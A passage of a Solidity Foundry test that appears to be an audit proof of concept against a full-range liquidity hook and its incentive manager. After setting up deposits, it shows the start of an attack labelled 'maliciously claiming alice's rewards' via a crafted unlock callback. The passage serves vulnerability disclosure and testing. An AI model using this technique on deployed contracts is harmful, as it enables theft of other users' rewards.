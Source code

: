 ```solidity
        (address system, bool updateOnSwap) = incentiveManager.incentiveSystems(1);
        assertEq(system, address(logic));
        assertEq(updateOnSwap, false);

        vm.prank(bob);
        logic.depositRewards(expectedId, address(rewardToken), 100 ether, 2 weeks);
        assertEq(rewardToken.balanceOf(address(this)), 0);
        assertEq(rewardToken.balanceOf(address(logic)), 100 ether);
        assertEq(incentiveManager.poolListedIncentiveSystems(expectedId, 1), true);

        // --------

        console.log("\n");
        console.log("alice adding recursive liquidity");

        uint256 prevBalance0Recursive = recursiveKey.currency0.balanceOf(alice);
        uint256 prevBalance1Recursive = recursiveKey.currency1.balanceOf(alice);

        (uint160 sqrtPriceX96Recursive,,,) = manager.getSlot0(recursiveId);
        uint128 liquidityRecursive = LiquidityAmounts.getLiquidityForAmounts(
            sqrtPriceX96Recursive,
            TickMath.getSqrtPriceAtTick(MIN_TICK),
            TickMath.getSqrtPriceAtTick(MAX_TICK),
            liquidityTokenBal,
            liquidityTokenBal
        );

        FullRangeHook.AddLiquidityParams memory addLiquidityParamsRecursive = FullRangeHook.AddLiquidityParams(
            recursiveKey.currency0, recursiveKey.currency1, 3000, liquidityTokenBal, liquidityTokenBal, liquidityTokenBal * 9/10, liquidityTokenBal * 9/10, alice, MAX_DEADLINE
        );

        vm.expectEmit(true, true, true, true);
        emit Deposited(alice, recursiveId, liquidityTokenBal - LOCKED_LIQUIDITY);

        vm.prank(alice);
        fullRange.addLiquidity(addLiquidityParamsRecursive);

        (bool hasAccruedFeesRecursive,) = fullRange.poolInfo(recursiveId);
        uint256 liquidityTokenBalRecursive = IncentivizedERC20(recursiveLiquidityToken).balanceOf(alice);

        assertEq(manager.getLiquidity(recursiveId), liquidityTokenBalRecursive + LOCKED_LIQUIDITY);

        assertEq(recursiveKey.currency0.balanceOf(alice), prevBalance0Recursive - liquidityTokenBal);
        assertEq(recursiveKey.currency1.balanceOf(alice), prevBalance1Recursive - liquidityTokenBal);

        assertEq(liquidityTokenBalRecursive, liquidityTokenBal - LOCKED_LIQUIDITY);
        assertEq(hasAccruedFeesRecursive, false);

        // --------

        console.log("\n");
        console.log("maliciously claiming alice's rewards");

        skip(3 weeks);

        manager.unlock(abi.encode(CallbackData(expectedId, Currency.wrap(address(rewardToken)), address(this))));
```